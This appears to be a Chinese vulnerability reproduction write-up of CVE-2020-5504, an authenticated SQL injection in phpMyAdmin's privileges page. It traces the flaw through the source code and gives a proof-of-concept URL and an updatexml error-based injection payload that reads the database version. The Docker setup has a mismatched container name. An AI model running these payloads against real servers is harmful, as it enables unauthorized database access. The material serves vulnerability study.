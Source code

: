 # CVE-2020-5504 Phpmyadmin 后台sql注入漏洞

### 一、漏洞简介

在用户帐户页面中发现了一个SQL注入漏洞。创建对此页面的查询时，恶意用户可能会注入自定义SQL来代替其自己的用户名。攻击者必须具有有效的MySQL帐户才能访问服务器。

### 二、漏洞影响

Phpmyadmin <= 5.00

Phpmyadmin <= 4.94

### 三、复现过程

**环境搭建**

docker一把梭


```
docker run --name mysql5.6 -e MYSQL_ROOT_PASSWORD=123456 -d mysql:5.6
docker run --name myadmin -d --link mysql5.7:db -p 8080:80 phpmyadmin/phpmyadmin:5.0
```

溯源和构造poc

下载前一个版本 5.0.0的代码压缩包后, 打开libraries/classes/Server/Privileges.php 来到对应行.


```php
if (isset($_GET['validate_username'])) {
            $sql_query = "SELECT * FROM `mysql`.`user` WHERE `User` = '"
                . $_GET['username'] . "';";
            // 省略 节省篇幅
        }
```

很显然可以看出注入点是`$_GET['username']`,而需要设置`$_GET['validate_username']`

往上看, 这段代码位于public function getExtraDataForAjaxBehavior函数.

搜索上层调用来到/server_privileges.php 的这段代码


```php
if ($response->isAjax()
    && empty($_REQUEST['ajax_page_request'])
    && ! isset($_GET['export'])
    && (! isset($_POST['submit_mult']) || $_POST['submit_mult'] != 'export')
    && ((! isset($_GET['initial']) || $_GET['initial'] === null
    || $_GET['initial'] === '')
    || (isset($_POST['delete']) && $_POST['delete'] === __('Go')))
    && ! isset($_GET['showall'])
    && ! isset($_GET['edit_user_group_dialog'])
) {
    $extra_data = $serverPrivileges->getExtraDataForAjaxBehavior(
        (isset($password) ? $password : ''),
        (isset($sql_query) ? $sql_query : ''),
        (isset($hostname) ? $hostname : ''),
        (isset($username) ? $username : '')
    );

    if (! empty($message) && $message instanceof Message) {
        $response->setRequestStatus($message->isSuccess());
        $response->addJSON('message', $message);
        $response->addJSON($extra_data);
        exit;
    }
}
```

可以发现if里大部分条件都可控, 除了$response->isAjax()


```php
public function isAjax(): bool
    {
        return $this->_isAjax;
    }
```

查看构造函数


```php
/**
     * Creates a new class instance
     */
    private function __construct()
    {
        if (! defined('TESTSUITE')) {
            $buffer = OutputBuffering::getInstance();
            $buffer->start();
            register_shutdown_function([$this, 'response']);
        }
        $this->_header = new Header();
        $this->_HTML   = '';
        $this->_JSON   = [];
        $this->_footer = new Footer();

        $this->_isSuccess  = true;
        $this->_isDisabled = false;
        $this->setAjax(! empty($_REQUEST['ajax_request']));
        $this->_CWD = getcwd();
    }
```

可以看到这条件在于`$_REQUEST['ajax_request']`是否为空.

根据上面的几个条件 我们可以构造出如下最简单的poc


```
http://127.0.0.1:8080/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%22
```

登陆后(这个操作需要权限) 尝试访问上面的url.返回如下


```json
{"success":false,"error":"<div class=\"error\"><h1>Error<\/h1><p><strong>Static analysis:<\/strong><\/p><p>1 errors were found during analysis.<\/p><p><ol><li>Ending quote \" was expected. (near \"\" at position 53)<\/li><\/ol><\/p><p><strong>SQL query:<\/strong>  <a href=\"#\" class=\"copyQueryBtn\" data-text=\"SELECT * FROM `mysql`.`user` WHERE `User` = 'test'&quot;';\">Copy<\/a>\n<a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Fselect.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a><a href=\"server_sql.php?sql_query=SELECT+%2A+FROM+%60mysql%60.%60user%60+WHERE+%60User%60+%3D+%27test%27%22%27%3B&amp;show_query=1\"><span class=\"nowrap\"><img src=\"themes\/dot.gif\" title=\"Edit\" alt=\"Edit\" class=\"icon ic_b_edit\">&nbsp;Edit<\/span><\/a>    <\/p>\n<p>\nSELECT * FROM `mysql`.`user` WHERE `User` = 'test'&quot;';\n<\/p>\n<p>\n    <strong>MySQL said: <\/strong><a href=\".\/url.php?url=https%3A%2F%2Fdev.mysql.com%2Fdoc%2Frefman%2F5.6%2Fen%2Ferror-messages-server.html\" target=\"mysql_doc\"><img src=\"themes\/dot.gif\" title=\"Documentation\" alt=\"Documentation\" class=\"icon ic_b_help\"><\/a>\n<\/p>\n<code>#1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '&quot;'' at line 1<\/code><br><\/div>"}
```

一个sql报错信息, 说明这个最短poc生效了

利用的话 反正都回显了 直接updatexml报错注入


```bash
http://127.0.0.1:8080/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%20and%20(select%20updatexml(1,concat(0x7e,(SELECT%20@@version),0x7e),1))%20--%20
```

在返回最下面可以看到#1105 - XPATH syntax error: '~5.6.46~'

### 后言

这个洞要求一个可以登录的账号才能注入. , 另外这个请求似乎也不需要csrf-token(不过似乎没什么用)

**参考链接**

https://xz.aliyun.com/t/7092